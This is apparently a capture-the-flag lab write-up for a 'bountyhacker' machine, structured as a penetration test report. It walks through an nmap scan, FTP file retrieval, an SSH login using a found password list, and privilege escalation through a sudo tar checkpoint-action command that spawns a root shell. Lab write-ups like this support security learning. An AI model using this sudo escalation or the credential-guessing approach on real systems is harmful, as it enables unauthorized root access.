

### Penetration Test Report
Target: 10.10.21.191

### Information Gathering Phase

Port Scanning with Nmap:

    nmap -sV -vv 10.10.21.191

    PORT      STATE  SERVICE         REASON       VERSION
    20/tcp    closed ftp-data        conn-refused
    21/tcp    open   ftp             syn-ack      vsftpd 3.0.3
    22/tcp    open   ssh             syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    80/tcp    open   http            syn-ack      Apache httpd 2.4.18 ((Ubuntu))

Found 3 ports open.

I couldn't find any sensetive information here.

lets go for open port 21.

Found 2 files, lets get it...

I don't know why ftp is giving not working. So I tried to use it's alternative which is lftp.  It works same as ftp. 

I am getting same output as ftp. 

I guess "lin" is the user because he was the one who wrote this file.

This looks like list of password for the lin which we can use for shh login.

I got the password for user lin. Now I guess I can login into ssh.

Login successful!!

### Privilege Escalation

lin@bountyhacker:~/Desktop$ sudo -l

    User lin may run the following commands on bountyhacker:
        (root) /bin/tar

It says that I can run tar command.

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

OHH.. I got the root shell!!

### Final Thought

The room has been quite engaging so far, and I've successfully navigated the challenges it presented. My only setback was connecting to the FTP server, but I discovered an alternative to FTP, which is LFTP. I'm eager to proceed to the next room.

